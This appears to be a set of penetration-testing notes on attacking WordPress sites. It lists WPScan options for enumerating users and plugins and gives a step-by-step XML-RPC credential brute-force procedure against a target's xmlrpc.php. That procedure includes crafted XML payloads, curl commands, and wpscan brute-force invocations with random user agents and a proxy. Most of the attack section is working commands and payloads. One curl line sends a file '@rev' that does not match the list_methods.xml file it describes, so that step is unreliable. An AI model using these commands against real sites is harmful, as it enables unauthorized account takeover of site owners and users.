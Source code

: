 # wpscan
**WPScan** is a widely-used open-source security scanner specifically designed to detect vulnerabilities in WordPress websites.

| Option                       | Description                                                                                         |
|------------------------------|-----------------------------------------------------------------------------------------------------|
| `--url`                       | Specifies the URL of the WordPress website you want to scan.                                         |
| `--enumerate`                 | Enumerates vulnerable plugins (`vp`), users (`u`), themes (`t`), and timthumbs (`p`).               |
| `--plugins-detection mixed`   | Specifies the plugin detection mode, in this case, "mixed," which includes both passive and aggressive detection methods. |
| `--passwords`                 | Specifies a file containing a list of passwords to use for brute force attacks.                     |
| `--usernames`                 | Specifies a file containing usernames to use for brute force attacks.                               |
| `--exclude-content-length`    | Excludes the Content-Length header from requests.                                                   |
| `--proxy`                     | Specifies a proxy to use for the scan.                                                              |
| `--random-agent`              | Uses a random User-Agent for each request.                                                          |
| `--verbose`                   | Increases the verbosity level of the output, providing more detailed information about the scan process. |


## Basic usage
```bash
wpscan --url <url>
```
## Other options
```bash
wpscan --enumerate vp,u,t,p \
       --plugins-detection mixed \
       --passwords /path/to/passwords.txt \
       --usernames /path/to/usernames.txt \
       --exclude-content-length \
       --proxy http://proxy.example.com:8080 \
       --random-agent \
       --verbose
```

# xmlrpc.php
**xmlrpc.php** is a file that represents a feature of WordPress that enables data to be transmitted with HTTP acting as the transport mechanism and XML as the encoding mechanism.

#### Risks of xmlrpc.php

1. **Brute Force Attacks**: Attackers can automate login attempts via XML-RPC, bypassing traditional login protections.
2. **DDoS Attacks**: Attackers can exploit XML-RPC to send multiple requests, overloading the server or launching amplified DDoS attacks.
3. **Pingback Amplification**: Malicious pingback requests can be used to reflect traffic to other sites, creating a DDoS attack.
4. **Vulnerabilities**: Older WordPress versions may have exploitable bugs in `xmlrpc.php`, enabling remote code execution (RCE) or other attacks.

### Attack process
Check if `xmlrpc.php` exists and is active on the target site. Create an XML file named `list_methods.xml` with the following content:

```bash
<?xml version="1.0" encoding="utf-8"?><methodCall><methodName>system.listMethods</methodName><params></params></methodCall>
```

Use `curl` to send the XML file as a POST request:

```bash
curl -X POST -H "Content-Type: application/xml" --data @rev http://<target_ip>/xmlrpc.php
```

If the file is active, the response will list all supported methods, such as:

- `getUsersBlogs`
- `wp.getCategories`
- `system.multicall`
- `pingback.ping`

Next, create a file named `bruteforce.xml`:

```xml
<?xml version="1.0"?>
<methodCall>
  <methodName>wp.getUsersBlogs</methodName>
  <params>
    <param><value><string>admin</string></value></param>
    <param><value><string>password123</string></value></param>
  </params>
</methodCall>
```

Send the payload using `curl`:

```bash
curl -X POST -H "Content-Type: application/xml" --data @bruteforce.xml http://<target_ip>/xmlrpc.php
```

If the response contains valid blog information, the credentials are correct. Automate this process for multiple attempts with tools like `wpscan` or custom scripts.

#### Using WPScan

WPScan simplifies brute force attacks and XML-RPC vulnerability scans.

```bash
wpscan --url http://<target_ip>/ --enumerate u,vp,t --random-agent --passwords /path/to/passwords.txt --usernames /path/to/usernames.txt
```

#### Using Custom Scripts

For fine-grained control, use custom scripts like [kill-xmlrpc](https://github.com/R-kill-9/kill-xmlrpc) to automate brute force or exploitation.